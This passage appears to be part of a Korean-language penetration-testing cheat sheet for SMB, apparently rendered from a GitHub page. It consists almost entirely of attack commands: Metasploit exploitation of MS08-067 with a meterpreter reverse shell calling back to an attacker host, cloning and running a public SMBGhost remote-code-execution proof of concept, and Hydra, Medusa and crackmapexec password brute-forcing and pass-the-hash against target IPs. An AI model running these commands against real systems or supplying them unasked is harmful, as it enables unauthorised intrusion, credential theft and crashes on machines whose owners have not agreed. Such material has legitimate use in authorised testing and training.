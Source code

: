 #### MS08-067 (Conficker)

```bash
# MS08-067 취약점 확인
nmap --script smb-vuln-ms08-067 -p 445 {IP}

# Metasploit으로 MS08-067 공격
msfconsole
use exploit/windows/smb/ms08_067_netapi
set RHOSTS {IP}
set payload windows/meterpreter/reverse_tcp
set LHOST {ATTACKER_IP}
exploit
```

#### SMBGhost (CVE-2020-0796)

```bash
# SMBGhost 취약점 확인 (Windows 10 1903/1909)
nmap --script smb-vuln-cve-2020-0796 -p 445 {IP}

# SMBGhost 익스플로잇 (주의: 시스템 크래시 가능성)
git clone https://github.com/chompie1337/SMBGhost_RCE_PoC.git
python3 SMBGhost_RCE_PoC.py -ip {IP}
```

### 🔄 브루트포스 공격

```bash
# Hydra를 이용한 SMB 브루트포스
hydra -l administrator -P /usr/share/wordlists/rockyou.txt smb://{IP}
hydra -L users.txt -P passwords.txt smb://{IP}
hydra -L users.txt -p password smb://{IP}

# 사용자 목록과 패스워드 목록 조합
hydra -L discovered_users.txt -P /usr/share/wordlists/rockyou.txt smb://{IP}

# 특정 사용자에 대한 집중 공격
hydra -l administrator -P /usr/share/wordlists/rockyou.txt smb://{IP} -t 1 -W 3

# Medusa를 이용한 브루트포스
medusa -h {IP} -u administrator -P /usr/share/wordlists/rockyou.txt -M smbnt
medusa -h {IP} -U users.txt -P passwords.txt -M smbnt

# crackmapexec를 이용한 고급 브루트포스
crackmapexec smb {IP} -u administrator -p password
crackmapexec smb {IP} -u users.txt -p passwords.txt
crackmapexec smb {IP} -u administrator -H {NTLM_HASH}
```

---

## 🚨 문제 해결
